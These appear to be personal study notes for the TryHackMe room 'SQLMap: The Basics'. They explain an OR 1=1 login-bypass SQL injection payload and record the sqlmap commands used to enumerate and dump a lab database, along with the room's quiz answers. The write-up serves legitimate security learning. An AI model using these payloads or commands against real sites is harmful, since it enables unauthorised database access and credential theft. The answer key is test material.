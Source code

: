 ```yaml
---
{"dg-publish":true,"permalink":"/try-hack-me/rooms/sqlmap-the-basics/","created":"2024-11-04T19:56:39.272-05:00","updated":"2025-02-06T21:55:20.946-05:00"}
---
```


# Task 2 - SQL Injection Vulnerability

- Usual SQL query from user to data base is sent like so,
	- `SELECT * FROM users WHERE username = 'John' AND password = 'Un@detectable444';`
	- Needs both username and password to be correct in order to go through
- If user input not validated/sanitized, attackers can input direct SQL queries that get executed in the database
- They can type in the following fields for the example above
	- Username: John
	- Password: abc' OR 1=1;-- -
	- The SQL query now becomes:
		- `SELECT * FROM users WHERE username = 'John' AND password = 'abc' OR 1=1;-- -';`
		- The OR condition here with the 1=1 statement makes the whole query true, regardless of the password being inputted (abc)
		- "-- -" at the end comments out anything after the 1=1, allowing the query to get executed right away
		- Ensure to use single quotes to make the last part separate instead of one whole string  

> [!Question]
> **Which boolean operator checks if at least one side of the operator is true for the condition to be true?** 

> [!Success] Answer
> OR

> [!Question]
> **Is 1=1 in an SQL query always true? (YEA/NAY)** 

> [!Success] Answer
> Answer: YEA
# Task 3 - Automated SQL Injection Tool

| Flag     | Description                                                                                  |
| -------- | -------------------------------------------------------------------------------------------- |
| --wizard | Guides you through each step to ask questions in order to finish scan, perfect for beginners |
| --dbs    | Extract all databases names                                                                  |
| -D       | Used to extract information about tables from set database, D database_name --tables         |
| --dump   | Extracts records from tables                                                                 |
| -u       | Used to provide URL                                                                          |
| --tables | Extracts all tables                                                                          |

- HTTP Get-based testing    
	- Look for vulnerable URL/requests, mainly those with GET parameters
	- Vulnerable to SQL injection
- Can also do POST-based testing    
	- Need to intercept POST request with -r
	- Can save to text file
	- Example, `sqlmap -r intercepted_request.txt` 

> [!Question]
> **Which flag in the SQLMap tool is used to extract all the databases available?** 

> [!Success] Answer
> --dbs

> [!Question]
> **What would be the full command of SQLMap for extracting all tables from the "members" database? (Vulnerable URL: http://sqlmaptesting.thm/search/cat=1)** 

> [!Success] Answer
> `sqlmap -u http://sqlmaptesting.thm/search/cat=1 -D members --tables`
   
# Task 4 - Practical Exercise

  If the page URL is not showing the GET parameters, can inspect page source and go to the Network section to find all requests
  
![The in-browser tools in the website that allow us to see the URL with parameters.|1000](/img/user/TryHackMe/THM_Images/749c11b0d8fccaea899c4902ee4732e4.png)

> [!Question]
> **How many databases are available in this web application?** 

Went to website and tried a random request to spawn the GET record, got to see the HTTP Get request link, [http://10.10.245.244/ai/includes/user_login?email=test&password=test](http://10.10.245.244/ai/includes/user_login?email=test&password=test)

![Exported image|1000](/img/user/TryHackMe/THM_Images/f80555465be20f0c39aae7a62681d668.png)  

Ran the command,

```
sqlmap -u http://10.10.245.244/ai/includes/user_login?email=test&password=test --dbs --level=5. 
```

Said Y,Y,Y,N for the parameters regarding level 5

![Exported image](/img/user/TryHackMe/THM_Images/358d32e53559d823854b64a926ed3c9b.png)  

![Exported image](/img/user/TryHackMe/THM_Images/77110f8198e789535e6ea6b75f08a6a3.png)  

> [!Success] Answer
> 6

> [!Question]
> **What is the name of the table available in the "ai" database?** 

Ran the command, 

```
sqlmap -u 'http://10.10.245.244/ai/includes/user_login?email=test&password=test -D ai --tables
```

![Exported image](/img/user/TryHackMe/THM_Images/c0ae81e31bcc2e146548e8075da07205.png)  

> [!Success] Answer
> user

> [!Question]
> **What is the password of the email test@chatai.com?** 

Ran the command, 

```
sqlmap -u http://10.10.245.244/ai/includes/user_login?email=test&password=test -D ai --tables --dump
```

![Exported image](/img/user/TryHackMe/THM_Images/e160f2cd554b2bc6b85e3255cd6983d0.png)  

> [!Success] Answer
> 12345678
          

